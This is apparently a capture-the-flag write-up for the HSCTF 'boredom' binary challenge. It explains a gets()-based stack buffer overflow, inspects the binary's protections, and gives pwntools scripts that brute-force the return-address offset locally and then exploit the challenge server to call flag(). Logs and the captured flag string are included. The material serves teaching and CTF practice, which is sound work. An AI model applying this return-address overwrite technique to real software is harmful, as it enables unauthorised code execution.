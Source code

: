 ```yaml
---
layout: post
author: andrea
tags: ctf hsctf binary
---
```

_Boredom_ is the the first ctf of binary exploitation. It provides a source file **boredom.c** and a binary file **boredom**.

First, I analyze the source code to find some exploitable code. Indeed, the main call the unsafe function <pre><code class="cpp hljs inline"> gets </code></pre>:

<pre><code class="cpp hljs">
	int main() {
		char toDo[200];
		setup();

		printf("Give me something to do: ");
		gets(toDo);
		puts("Ehhhhh, maybe later.");
		return 0;
	}
</code></pre>

<code class="cpp hljs inline">gets</code> saves the input in the char array <code class="cpp hljs inline">toDo</code> and it can overwrite the return instruction pointer in the stack if the user writes more than 200 characters. The other function in **boredom.c** tells us where the flag is located:

<pre><code class="cpp hljs">
	void flag() {
		FILE &#42;f = fopen("flag.txt", "r");
		char buf[50];
		if (f == NULL) {
			puts("You're running this locally or I can't access the flag file for some reason.");
			puts("If this occurs on the remote, ping @PMP#5728 on discord server.");
			exit(1);
		}
		fgets(buf, 50, f);
		printf("Hey, that's a neat idea. Here's a flag for your trouble: %s\n", buf);
		puts("Now go away.");
		exit(42);
	}	
</code></pre>

We just need to find the address of function <code class="cpp hljs inline">flag</code> and overwrite it in the return instruction pointer in the stack. However, even though this is the main concept behind the buffer overflow exploit, there are a lot of details to make it real.

## Architecture characteristics

Before writing any exploit we have to understand in which architecture the **boredom** binary is running. The <code class="bash hljs inline">readelf -h boredom</code> command answers to all our questions:

<pre><code class="plaintext hljs">
	ELF Header:
	Magic:   7f 45 4c 46 02 01 01 00 00 00 00 00 00 00 00 00
	Class:                             ELF64
	Data:                              2's complement, little endian
	Version:                           1 (current)
	OS/ABI:                            UNIX - System V
	ABI Version:                       0
	Type:                              EXEC (Executable file)
	Machine:                           Advanced Micro Devices X86-64
</code></pre>

Boom! It is 64bit architecture and little-endian (least significant byte are stored in the smallest address, e.g. higher in the stack).

Now we use our swiss army knife, aka pwntools, to get some other interesting features of this binary:

<pre><code class="python hljs">
	#!/usr/bin/python3
	from pwn import &#42;
	e = ELF('./boredom')
	print(e)
</code></pre>


the output is:

<pre><code class="plaintext hljs">
	Arch:     amd64-64-little
	RELRO:    Full RELRO
	Stack:    No canary found
	NX:       NX enabled
	PIE:      No PIE (0x400000)
</code></pre>

- _amd-64-little_ tells what we already know;
- _Full RELRO_: the Global Offset Table (GOT) is read-only, that is we can't change the function addresses.
- _No canary found_: the stack doesn't protect the return pointer if we try to overwrite it. This is the vulnerability we are exploiting.
- _NO PIE_: NO Position-Independent Executable, so the code can't run in any address but in those addresses specified by the binary file. In a _PIE_ file there are offsets instead of addresses.

## Exploit

Knowing all these characteristics of the the binary, we remain to guess the offset between the buffer <code class="cpp hljs inline">toDo</code> and the return instruction pointer in the stack. So when the program asks for the input we'll write 200 chars + offset + address of <code class="cpp hljs inline">flag()</code>.

<pre><code class="python hljs">
	#!/usr/bin/python3
	from pwn import &#42;
	e = ELF('./boredom')
	flag&#95;addr = p64(e.symbols['flag'])
	
	for i in range(201,220):
		print('i: ' + str(i))
		p = process('./boredom')
		payload = bytes("a"*i,'utf-8') + flag&#95;addr
		p.sendlineafter(': ', payload)
		res = p.recvall(timeout=1)
		if "flag" in res.decode():
			print(res.decode())
			break;
</code></pre>

where <code class="cpp hljs inline">flag&#95;addr = \xd5\x11\x40\x00\x00\x00\x00\x00</code> is 8 byte long.

When the binary returns _You're running this locally or I can't access the flag file for some reason._ we have found the right offset.

**In my case** the offset is 16 bytes:

<pre><code class="plaintext hljs">
	...
	i: 215
	[+] Starting local process './boredom': pid 203
	[+] Receiving all data: Done (21B)
	[*] Process './boredom' stopped with exit code -11 (SIGSEGV) (pid 203)
	i: 216
	[+] Starting local process './boredom': pid 206
	[+] Receiving all data: Done (162B)
	[*] Process './boredom' stopped with exit code 1 (pid 206)
	Ehhhhh, maybe later.
	You're running this locally or I can't access the flag file for some reason.
	If this occurs on the remote, ping @PMP#5728 on discord server.

	i: 217
	[+] Starting local process './boredom': pid 209
	[+] Receiving all data: Done (21B)
	[*] Process './boredom' stopped with exit code -11 (SIGSEGV) (pid 209)
	...
</code></pre>

We exploited the buffer overflow locally now it's time to make it working remotely:

<pre><code class="python hljs">
	#!/usr/bin/python3
	from pwn import *

	p = remote('pwn.hsctf.com', 5002)

	flag_addr = 0x00000000004011d5
	print( bytes('a'*(208),'utf-8')+p64(flag_addr))
	p.sendlineafter(': ', bytes('a'*(208),'utf-8')+p64(flag_addr))

	p.interactive()
</code></pre>

Unfortunately, the offset that we use to pwn the binary online is different from that we used locally. The offset is just 8 bytes instead of 16 bytes.

Eventually, the flag is:

<pre><code class="plaintext hljs">
	flag{7h3_k3y_l0n3l1n355_57r1k35_0cff9132}
</code></pre>

## Resources

- [https://ctf.hsctf.com/](https://ctf.hsctf.com/)
- [Relocation Read-Only (RELRO)](https://ctf101.org/binary-exploitation/relocation-read-only/)
